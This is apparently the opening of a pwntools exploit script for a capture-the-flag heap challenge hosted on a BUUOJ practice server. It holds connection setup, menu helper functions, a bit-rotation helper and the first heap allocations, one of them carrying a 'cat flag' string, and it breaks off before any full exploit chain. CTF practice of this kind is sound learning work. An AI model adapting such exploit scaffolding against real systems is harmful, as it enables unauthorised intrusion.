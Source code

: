 ````python


ELF_NAME = './pwn'
REMOTE_LIBC = '/lib/x86_64-linux-gnu/libc.so.6'

local = 0

if local == 2:
    p = process(["/home/mark/glibc-all-in-one/2.29-0ubuntu2_amd64/ld-2.29.so", ELF_NAME],
            env={"LD_PRELOAD":"/home/mark/glibc-all-in-one/2.29-0ubuntu2_amd64/libc-2.29.so"})
elif local == 1:
    p = process(ELF_NAME)
    LIBC_NAME = REMOTE_LIBC
else:
    p = remote("node4.buuoj.cn","26229")
    LIBC_NAME = REMOTE_LIBC

elf = ELF(ELF_NAME)   
libc = ELF(LIBC_NAME) 

def debug(p,cmd=0):
    if local!=0:
        gdb.attach(p)
        if cmd:
            pause()
    else:
        pass

def cmd(i):
    p.sendlineafter(">>",str(i))

def add(idx,size,data):
    cmd(1)
    p.sendlineafter("Index:",str(idx))
    p.sendlineafter("Size:",str(size))
    p.sendlineafter("Content",data)

def edit(idx,data):
    cmd(2)
    p.sendlineafter("Index:",str(idx))
    p.sendlineafter("Content",data)

def edit_noline(idx,data):
    cmd(2)
    p.sendlineafter("Index:",str(idx))
    p.sendafter("Content",data)

def show(idx):
    cmd(3)
    p.sendlineafter("Index:",str(idx))

def delete(idx):
    cmd(4)
    p.sendlineafter("Index:",str(idx))

def ROL(content, key):
    tmp = bin(content)[2:].rjust(64, '0')
    return int(tmp[key:] + tmp[:key], 2)

add(0,0x460,"a"*0x40+p64(0)*4+"cat flag")
add(1,0x420,"b"*0x40)
add(2,0x440,"c"*0x40)
add(3,0x420,"d"*0x40)
````